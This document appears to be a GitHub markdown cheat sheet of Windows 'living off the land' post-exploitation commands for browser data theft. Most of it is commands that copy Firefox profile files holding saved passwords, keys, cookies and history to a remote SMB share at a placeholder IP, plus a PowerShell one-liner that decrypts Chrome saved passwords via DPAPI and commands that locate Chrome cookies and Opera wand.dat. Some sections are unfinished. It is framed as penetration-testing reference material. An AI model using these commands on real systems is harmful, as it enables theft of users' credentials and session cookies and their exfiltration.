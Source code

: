 # Living off the Land

## 01 - Command Prompt

### 1.1 - Firefox Profiles

Copy all SQLite files.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles*.sqlite \\<IP>\<share_name>\

C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.db \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.json \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.dat \\<IP>\<share_name>\
```

The database files contains bookmarks, downloads and browsing history, site-specific preferences (permissions), autocomplete history, and cookies.

```
C:\> copy %appdata%\Mozilla\Firefox\Profiles\places.sqlite \\<IP>\<share_name>\

copy %appdata%\Mozilla\Firefox\Profiles\permissions.sqlite \\<IP>\<share_name>\

copy %appdata%\Mozilla\Firefox\Profiles\formhistory.sqlite \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\cookies.sqlite \\<IP>\<share_name>\
```

Contains saved passwords.

```
C:\> copy %appdata%\Mozilla\Firefox\Profiles\key3.db \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\logins.json \\<IP>\<share_name>\
```

Security certificate settings.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\cert8.db \\<IP>\<share_name>\
```

Search engines.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\search.json.mozlz4 \\<IP>\<share_name>\
```

Personal dictionary.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\persdict.dat \\<IP>\<share_name>\
```

### 1.2 - Google Chrome

TODO: Fill this information

Contains encrypted SQLite files that stores the credentials.

```
C:\> dir %appdata%\Local Settings\Application Data\Google\Chrome\User Data\Default\Web Data\*.sqlite
```

### 1.3 - Opera

```
C:\> dir %APPDATA%\Application Data\Opera\Opera\profile\wand.dat
```

## 02 - PowerShell

### 2.1 - Firefox Profiles

```

```

### 2.2 - Google Chrome

Dump passwords.

```
PS C:\> [System.Text.Encoding]::UTF8.GetString([System.Security.Cryptography.ProtectedData]::Unprotect($datarow.password_value, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser))
```

Dump cookies.

```
PS C:\> '$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Cookies' | Get-Item
```

### 2.3 - Opera

```

```

---
## References

- [Retrieving Data From Thunderbird and Firefox](https://thevivi.net/blog/pentesting/2020-09-06-retrieving-data-from-thunderbird-and-firefox/)

- [FareedFauzi Resources Windows Post Exploitation](https://fareedfauzi.gitbook.io/oscp-notes/windows-post-exploitation/resources-windows-post-exploitation)

- [Mango PDF Zone Stealing Chrome Cookies Without a Password](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)

- [RedTeamRecipe: Methods for Stealing Password in Browser](https://blog.redteamguides.com/methods-for-stealing-password-in-browser)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)